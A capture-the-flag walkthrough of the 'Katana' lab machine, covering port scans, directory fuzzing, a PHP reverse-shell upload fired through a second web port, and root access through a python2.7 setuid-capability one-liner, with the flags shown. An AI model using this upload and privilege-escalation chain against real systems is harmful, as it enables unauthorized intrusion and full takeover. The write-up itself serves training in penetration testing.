




There are 4 web services running, only 1 of which provides the setup to then access with 1 other to get in. Everything else is a rabbit hole.

```bash
PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack vsftpd 3.0.3
22/tcp   open  ssh           syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDp0J8d7K55SuQO/Uuh8GyKm2xlwCUG3/Jb6+7RlfgbwrCIOzuKXICcMHq4i8z52l/0x0JnN0GUIeNu6Ek/ZGEMK4y+zvAs0R6oPNlScpx0IaLDXTGrjPOcutmx+fy6WDW3/jJGLxwu+55d6pAjzzQR37P1eqH8k9F6fbv6YUFbU+i68x9p5bXCC1m17PDO98Che+q32N6yM26CrQMOl5t1OzO3t1pbvMd3VOQA8Qd+fhz5tpxtRBTSM9ylQj2B+z6XjJnbMPhnO3C1oaYHjjL6KiTfD5YabDqsBf+ZHIdZpM+7fOqKkgHa4bbIWPUXB/OuOJnORvEeRCALOzjcSrxr
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDBsZi0z31ChZ3SWO/gDe+8WyFVPrFX7KgZNp8u/1vlhOSrmdZ32WAZZhTT8bblwgv83FeXPvH7btjDMzTuoYA8=
|   256 cce625c0c6119f88f6c4261edefae98b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICo+dAzFw2csa366udGUkSre2W0qWWGoyWXwKiHk3YQc
80/tcp   open  http          syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid syn-ack LiteSpeed
|_http-title: Did not follow redirect to https://192.168.171.83:7080/
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US/X509v3 Subject Alternative Name=DNS.1=1.55.254.232
| Issuer: commonName=katana/organizationName=webadmin/countryName=US/X509v3 Subject Alternative Name=DNS.1=1.55.254.232
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   04434a659ba10b75ea8dd1b8c855e495
| SHA-1: f89ef85ee6b36b104ebc535480a00ae37e1050cc
| -----BEGIN CERTIFICATE-----
| MIIDfTCCAmWgAwIBAgIUAXyRP1qy58OWLRWfP6CNoErg93wwDQYJKoZIhvcNAQEL
| BQAwTjEPMA0GA1UEAwwGa2F0YW5hMREwDwYDVQQKDAh3ZWJhZG1pbjELMAkGA1UE
| BhMCVVMxGzAZBgNVHREMEkROUy4xPTEuNTUuMjU0LjIzMjAeFw0yMDA1MTExMzU3
| MzZaFw0yMjA1MTExMzU3MzZaME4xDzANBgNVBAMMBmthdGFuYTERMA8GA1UECgwI
| d2ViYWRtaW4xCzAJBgNVBAYTAlVTMRswGQYDVR0RDBJETlMuMT0xLjU1LjI1NC4y
| MzIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDUrg/knoyr6L8pJhlZ
| bEp2vj/1S/2lEiYzl3CbBtCDcNnSQLB2b7hC5vkzIFT5XOHcboXGSWWZ7g1Mlo/U
| irtoeuFYH0KyqYqKH6cJIUCUuIvsKFvEuSpcLB5oHMH1bNYHl8gk2uxnXDRHfxL1
| mhhV+tDewjGu7TzjWcGapvZmJKCQYJto6X4JagN/Xx7bWZQYKb22E/K/17PPg1Wg
| szg2C8a/sj/GWBiw5HADUx5FnQY0FfljwBBSQr10nGiex+w/NAYK8obUTsvUz1P7
| h2aG1V/9FtXHa6HK7YrApieVVTyBZTf4adj5OvmIT5w43vEBZXgCTUMLcf6JmiGy
| OMmdAgMBAAGjUzBRMB0GA1UdDgQWBBRpfqzDB3dS6IMabVgYjX+nQE8xZzAfBgNV
| HSMEGDAWgBRpfqzDB3dS6IMabVgYjX+nQE8xZzAPBgNVHRMBAf8EBTADAQH/MA0G
| CSqGSIb3DQEBCwUAA4IBAQCGCOYvcHj7XrE0fnuDbc4rdQzSVOCOK31F4aV4pWEh
| a6h/WQX9wQBHcs5XPl9D4JVDFQvtxBPWsmnzqqXm8CbeZ7cfAjzPGd994jFBeom6
| 3gnAXmCFSlRsPuqvKkGhBaSDDtzrWE4eZC0H2g9BJp0f6w4sRJSjCH1wZ30Jvgm+
| 9Hkcw9cG0WxkHEBk3SPB7d9iG6rFLJvZE4dcVbA6jtkhQZDrCAqaH69exWtKSQpV
| oBu7+tHFy/8uv7yRuC4fQY7Nmc0JD5otoax1yOpGN/eSz8zRFh+jl5VzdONtXQCO
| H8o8x5fxVi65kRQYil6UcG3lX56V51h/33dxWIDw+lAE
|_-----END CERTIFICATE-----
|_http-server-header: LiteSpeed
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8088/tcp open  http          syn-ack LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          syn-ack nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80, fuzzing reveals a bookstore:

```bash
$ gobuster dir -u http://192.168.171.83 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.83
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/06 11:25:25 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/ebook                (Status: 301) [Size: 316] [--> http://192.168.171.83/ebook/]
/index.html           (Status: 200) [Size: 655]
/server-status        (Status: 403) [Size: 279]
Progress: 4522 / 4615 (97.98%)===============================================================
```

I've seen this in another machine (Funbox). I tried the same [exploit](https://github.com/jayngng/cse_bookstorev1). It doesn't work.

On port 8088, if you search for php and html extensions, you'll find a key endpoint:

```bash
$ gobuster dir -u http://192.168.171.83:8088/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html,.htm,.conf,.bak,.sh,.pl,.cgi --timeout 50s -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.83:8088/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              pl,html,htm,conf,sh,php,txt,bak,cgi
[+] Timeout:                 50s
===============================================================
2023/03/06 13:32:26 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 655]
/cgi-bin              (Status: 301) [Size: 1260] [--> http://192.168.171.83:8088/cgi-bin/]
/img                  (Status: 301) [Size: 1260] [--> http://192.168.171.83:8088/img/]
/docs                 (Status: 301) [Size: 1260] [--> http://192.168.171.83:8088/docs/]
/upload.html          (Status: 200) [Size: 6480]
/upload.php           (Status: 200) [Size: 1800]
/css                  (Status: 301) [Size: 1260] [--> http://192.168.171.83:8088/css/]
```

On `http://192.168.171.83:8088/upload.html`, you'll find a page to upload a php file. 



If you upload a php reverse shell, it will prepend the file with 'katana_'. It will also not be available through this port's service. You'll have to try another one.



On port 8715, there's practically nothing:

```bash
$ ffuf -u http://192.168.171.83:8715/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -fw 6

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.171.83:8715/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 6
________________________________________________

.htpasswd               [Status: 403, Size: 169, Words: 4, Lines: 8, Duration: 44ms]
.htaccess               [Status: 403, Size: 169, Words: 4, Lines: 8, Duration: 46ms]
```

On the other hand, if you wait a minute after uploading the reverse shell and try to fetch your `shell.php` file from `http://192.168.171.83:8715/katana_shell.php`, you'll be able to catch the shell:

```bash
www-data@katana:~$ whoami
www-data
www-data@katana:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@katana:~$ hostname
katana
www-data@katana:~$ hostname -I
192.168.171.83
www-data@katana:~$ cat local.txt
0131788e4ee56b5218425ee6b3dc1162
```



Running linpeas reveals python has setuid capabilities:

```bash
Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

Use this to become root:

```bash
www-data@katana:/tmp$ which python2.7
/usr/bin/python2.7
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# cd /root
# ls
proof.txt  root.txt
# cat proof.txt
7c31b887190115f281154082a48f6607
# whoami
root
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# hostname -I
192.168.171.83
```



